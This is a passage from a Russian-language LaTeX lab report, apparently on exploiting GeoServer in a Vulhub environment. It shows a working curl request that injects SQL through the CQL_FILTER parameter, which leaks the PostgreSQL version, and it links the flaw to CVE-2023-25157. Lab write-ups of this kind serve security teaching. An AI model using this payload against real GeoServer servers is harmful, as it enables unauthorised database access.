  
\includegraphics[width=.9\textwidth]{check.png}
\end{center}

Формирование запроса для curl:

\begin{lstlisting}
  curl -G 'http://localhost:8080/geoserver/ows' \
    --data-urlencode 'service=WFS' \
    --data-urlencode 'version=1.0.0' \
    --data-urlencode 'request=GetFeature' \
    --data-urlencode 'typeName=vulhub:example' \
    --data-urlencode "CQL_FILTER=strStartsWith(name,'x'') = 
      true and 1=(SELECT CAST ((SELECT version()) AS integer)) -- ') = true"
\end{lstlisting}

В ответе получаем: PostgreSQL 14.9 on x86\_64-pc-linux-musl, compiled by gcc (Alpine 12.2.1\_git20220924-r10) 12.2.1 20220924, 64-bit

\begin{center}
  
\includegraphics[width=.9\textwidth]{ing.png}
\end{center}

\section{Исследование уязвимости}

На сайте \href{https://cve.mitre.org/}{cve.mitre.org} находим уязвимость.
\\
Сама уязвимость: \href{https://www.cve.org/CVERecord/SearchResults?query=CVE-2023-25157}{CVE-2023-25157}
\begin{center}
  
\includegraphics[width=.7\textwidth]{nvd1}
\end{center}
\begin{center}
  
\includegraphics[width=.7\textwidth]{nvd2.png}
\end{center}
\begin{center}
  
\includegraphics[width=.7\textwidth]{nvd3}
\end{center}
\begin{center}
